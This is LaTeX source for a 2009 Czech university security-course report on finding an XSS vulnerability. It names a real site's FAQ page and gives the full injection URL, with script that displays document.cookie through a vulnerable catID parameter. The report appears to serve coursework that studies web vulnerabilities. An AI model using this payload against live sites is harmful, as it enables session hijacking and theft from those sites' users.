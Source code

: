 \documentclass[a4paper,10pt]{article}
\begin{document}
\begin{center}
	\begin{Large}\textbf{Řešení 1. projektu do předmětu BIS}\end{Large} \\

	\vspace{0.4cm}

	Petr Zemek \\
	\emph{xzemek02@stud.fit.vutbr.cz} \\
	\emph{Faculty of Information Technology} \\

	\vspace{0.4cm}

	26.10.2009
\end{center}

\section*{Část 1}

\subsection*{1. web}

\textbf{Server:} \verb!photobucket.com!

\textbf{Zranitelná stránka:} \verb!http://photobucket.com/faq!

\textbf{XSS kód vykonávající zranitelnost:} \\
\verb!http://photobucket.com/faq?catID=1"></a><script>alert(document.cookie);</script><a!

\begin{center}
	\includegraphics[width=14cm,keepaspectratio]{include/xss1}
\end{center}
\end{document}
